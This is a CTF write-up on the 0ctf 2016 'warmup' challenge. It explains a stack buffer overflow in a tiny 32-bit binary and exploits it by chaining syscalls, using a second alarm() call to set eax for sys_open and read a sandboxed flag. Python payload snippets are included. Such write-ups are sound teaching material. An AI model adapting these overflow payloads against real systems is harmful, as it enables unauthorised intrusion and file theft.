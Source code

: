 +++
title = "0ctf 2016 - Warmup write-up"
authors = ["hugsy"]
date = 2016-03-14T00:00:00Z
updated = 2016-03-14T00:00:00Z

[taxonomies]
tags = ["pwn", "gef", "ida", "0ctf-2016", "x86"]
categories = ["ctf"]
+++

I participated to [0ctf](https://ctftime.org/team/4419/) but only had time to play for
the reversing challenge `trace` (write-up coming up soon) during the competition
time.

I did this challenge only for fun after the CTF was over so I do not know the
flag, and since I found it interesting, I decided to write a quick write-up.

And kudos to all teams who solved it !


### Info ###


```bash
gef➤  !file ./warmup
./warmup: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, BuildID[sha1]=c1791030f336fcc9cda1da8dc3a3f8a70d930a11, stripped
gef➤  checksec warmup
[+] checksec for 'warmup'
Canary:                                           No
NX Support:                                       Yes
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    No
Full RelRO:                                       No
```

Pretty stripped down file, very small (which seemed weird for a statically
linked file). Stack canary and PIE are not on, but NX is.


### Vulnerability ###

The binary is really small, does not do much either, so the vulnerability is
quite easy to find and trigger.

{{ img(src="https://i.imgur.com/jpU2YsD.png" title="vuln") }}

At 0x08048174, We have a `read(socket, buffer, 52)` where buffer can only
contain 32 bytes, so we have a classic stack overflow. A part of the challenge
is however due to the fact that our controlled part is quite limited
(i.e. 52-32=20 bytes=5 DWORD).



### Exploitation ###

In addition to not having a lot of gadgets (the source was written in pure
assembly), no libc, etc. 0ctf organizers added that

```txt
notice: This service is protected by a sandbox, you can only read the flag at /home/warmup/flag
```

Meaning: we cannot simply write `/bin/sh` somewhere in memory, set `eax` to 11
and simply use a gadget to set `ebx`, `ecx`, `edx` to value loaded from the
stack. We have to go all the way to open, read, write back the value of the flag
located in `/home/warmup/flag`.

This lead to a much funkier way to exploit.


#### Objective ####

The objective here seems pretty straight forward. We need to :

   1. Write `/tmp/flag` in a predictable and writable location ( anywhere in the
   `.data` section will do just fine).
   1. Forge a `sys_open(flag, RWX)` gadget
   1. Forge a `sys_read(fd, another_writeable_location, 50)` gadget
   1. Forge a `sys_write(socket, another_writeable_location, 50)`

And it is done! In theory it seems pretty easy, but it took me a few hours
(never underestimate a challenge ☺).


#### Interesting gadgets ####

What the binary provides us with are gadgets to read and write:
```bash
--read
.text:0804811D                 mov     eax, 3
.text:08048122                 mov     ebx, [esp+fd]   ; fd
.text:08048126                 mov     ecx, [esp+addr] ; addr
.text:0804812A                 mov     edx, [esp+len]  ; len
.text:0804812E                 int     80h             ; LINUX - sys_read

--write
.text:08048135                 mov     eax, 4
.text:0804813A                 mov     ebx, [esp+fd]   ; fd
.text:0804813E                 mov     ecx, [esp+addr] ; addr
.text:08048142                 mov     edx, [esp+len]  ; len
.text:08048146                 int     80h             ; LINUX - sys_write
```

Where the arguments are read from the limited stack we control.

However, we do not have an `sys_open` gadget, but since we can control `ebx`
from the stack, all we need is to find a way to set `eax` to
[5](https://raw.githubusercontent.com/torvalds/linux/master/arch/x86/entry/syscalls/syscall_32.tbl)

My original intention was to force a call to `sys_read` from our socket, and
send 5 bytes of junk data so that the syscall can return with the right value in
`eax`. Unfortunately, we do not have enough space in our stack to chain correctly our
`read` arguments, then jump into it and finally jump back to our next gadget ☹ .

After quite some time, I realized that `warmup` starts by initializing an alarm
for 10 seconds (which when `SIGALRM` is received, will kill the
program).
```bash
.text:0804810D                 mov     eax, 27
.text:08048112                 mov     ebx, [esp+seconds] ; seconds
.text:08048116                 int     80h             ; LINUX - sys_alarm
```

Nevertheless, this could be valuable to us, because RTFM:

>
>       alarm()  returns  the number of seconds remaining until any previously
>       scheduled alarm was due to be delivered, or zero if there was no
>       previously scheduled alarm.
>

That means that if we jump a second time into the gadget @0x0804810D (i.e. call
`alarm()` a second time), `eax` will be populated with whatever time is left
before SIGALRM is issued!
And since `alarm()` can take any integer as argument, our syscall will not
return as an error! So by sleeping 5 seconds, `sys_alarm` will return with `eax`
set to `NR_sys_open` (5), and we can use the stack to populate the other
registers required for `sys_open`!


#### Attack ####

Again, because of our limited space in the stack, we need to trigger the
vulnerability multiple times. To do, we have to perform only one operation, then
return to the original function (`0x0804815A`), and let the control flow repeat
again until it re-hit our vulnerability.

So let's go back to the steps we set in the *Objective* part for the
exploitation part:

Writing `/tmp/flag` in a predictable and writable location can be done with the
following gadgets:
```python
    p = "A"*32
    p+= i_s(sys_read)
    p+= i_s(ret_to_orginal_function) # ret back to vuln function
    p+= i_s(0) # fd
    p+= i_s(writable_addr) # addr
    p+= i_s(len(flag_path)) # len
    s.write(p)
    s.read_until("Good Luck!\n")
```

Now we have to sleep !! ☺
```python
    time.sleep(5)
```

Now we can send our second payload, to call `alarm`, setting `eax` to
`NR_sys_open`, and append the other arguments:
```python
    p = "A"*32
    p+= i_s(sys_alarm)
    p+= i_s(set_ebx_ecx_edx_int80)
    p+= i_s(ret_to_orginal_function)
    p+= i_s(writable_addr)
    p+= i_s(7) # READ|WRITE|EXECUTE
    s.write(p)
    s.read_until("Good Luck!\n")
```

We have now a file descriptor open to our flag file! Let's read its content:
```python
    p = "A"*32
    p+= i_s(sys_read)
    p+= i_s(ret_to_orginal_function)
    p+= i_s(5) # file_fd
    p+= i_s(writable_addr2)
    p+= i_s(20)
    s.write(p)
    s.read_until("Good Luck!\n")
```

... And write it back to our socket (and exit cleanly, just because):
```python
    p = "A"*32
    p+= i_s(sys_write)
    p+= i_s(sys_exit)
    p+= i_s(1) # fd stdout
    p+= i_s(writable_addr2)
    p+= i_s(20)
    s.write(p)
```

This write-up does not give justice to the challenge, making it look easy. But
it was not. I really like how you are made to create really inventive and neat
technique for subverting existing calls to set up the structure the exact way
you want it.

For those who want, the full exploit script is
[here](https://gist.github.com/hugsy/8e31ddc61dba7d4e7c1f). But again, it was
not tested against the game server.

Another good lesson to pay attention to details...
